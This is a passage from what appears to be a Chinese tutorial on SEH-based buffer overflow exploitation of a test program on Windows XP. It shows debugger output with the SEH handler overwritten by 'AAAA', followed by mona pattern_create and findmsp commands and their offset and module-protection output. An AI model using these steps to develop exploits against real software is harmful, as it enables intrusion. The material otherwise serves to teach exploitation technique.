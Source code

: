 char buffer[500]是为了开辟足够大的空间

程序运行后

```
#!bash
EAX 7EFEFEFE
ECX 0012FC94 ASCII "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
EDX 41414141
EBX 7FFD6000
ESP 0012FBA4
EBP 0012FE08
ESI 004261A9 aaaa.004261A9
EDI 00130000 ASCII "Actx "
EIP 004013D1 aaaa.004013D1
C 0  ES 0023 32bit 0(FFFFFFFF)
P 1  CS 001B 32bit 0(FFFFFFFF)
A 0  SS 0023 32bit 0(FFFFFFFF)
Z 1  DS 0023 32bit 0(FFFFFFFF)
S 0  FS 003B 32bit 7FFDF000(FFF)
T 0  GS 0000 NULL
D 0
O 0  LastErr ERROR_SUCCESS (00000000)
EFL 00010246 (NO,NB,E,BE,NS,PE,GE,LE)

----------------------------------------------

SEH chain of main thread
Address    SE handler
0012FDFC   aaaa.004134A0
0012FFB0   41414141
41414141   *** CORRUPT ENTRY *** 
```

可以看到seh已经被覆盖,用mona插件计算从缓冲区到seh的距离.

`!mona pattern_create 300` 生成长度为300的随机字符串,替换为shellcode,再溢出一次,执行 `!mona findmsp`

```
#!bash
================================================================================
----------------------------------------------------------------------------------------------------------------------------------
 Module info :
----------------------------------------------------------------------------------------------------------------------------------
 Base       | Top        | Size       | Rebase | SafeSEH | ASLR  | NXCompat | OS Dll | Version, Modulename & Path
----------------------------------------------------------------------------------------------------------------------------------
 0x7c920000 | 0x7c9b3000 | 0x00093000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [ntdll.dll] (C:\WINDOWS\system32\ntdll.dll)
 0x7c800000 | 0x7c91e000 | 0x0011e000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [kernel32.dll] (C:\WINDOWS\system32\kernel32.dll)
 0x00400000 | 0x0042f000 | 0x0002f000 | False  | False   | False |  False   | False  | -1.0- [aaaa.exe] (C:\Documents and Settings\Administrator\桌面\aaaa\Debug\aaaa.exe)
----------------------------------------------------------------------------------------------------------------------------------
[+] Looking for cyclic pattern in memory
    Cyclic pattern (normal) found at 0x0042609c (length 300 bytes)
    Cyclic pattern (normal) found at 0x0012fbe4 (length 300 bytes)
    -  Stack pivot between 96 & 396 bytes needed to land in this pattern
    Cyclic pattern (normal) found at 0x0012fe44 (length 300 bytes)
    -  Stack pivot between 704 & 1004 bytes needed to land in this pattern
    Cyclic pattern (normal) found at 0x0012ff74 (length 140 bytes)
```